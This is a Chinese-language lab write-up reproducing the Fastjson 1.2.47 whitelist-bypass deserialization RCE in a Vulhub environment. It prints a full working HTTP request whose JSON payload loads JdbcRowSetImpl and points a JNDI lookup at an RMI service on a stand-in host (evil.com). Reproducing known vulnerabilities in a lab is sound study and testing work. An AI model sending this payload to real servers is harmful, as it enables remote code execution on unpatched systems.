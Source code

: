 

## 概述 

fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

## 靶场环境

https://github.com/vulhub/vulhub/tree/master/fastjson/1.2.47-rce

## 复现

目标环境是openjdk:8u102，这个版本没有com.sun.jndi.rmi.object.trustURLCodebase的限制，我们可以简单利用RMI进行命令执行。

复现过程与 1.2.24类似，payload 不同。

	POST / HTTP/1.1
	Host: target_ip:8090
	Accept-Encoding: gzip, deflate
	Accept: */*
	Accept-Language: en
	User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
	Connection: close
	Content-Type: application/json
	Content-Length: 160
	
	{
	    "a":{
	        "@type":"java.lang.Class",
	        "val":"com.sun.rowset.JdbcRowSetImpl"
	    },
	    "b":{
	        "@type":"com.sun.rowset.JdbcRowSetImpl",
	        "dataSourceName":"rmi://evil.com:1389/TouchFile",
	        "autoCommit":true
	    }
	}


![](poc.jpg)

恶意ldap服务回显

![](huixian.jpg)

docker tmp目录下 查看结果

![](res.jpg)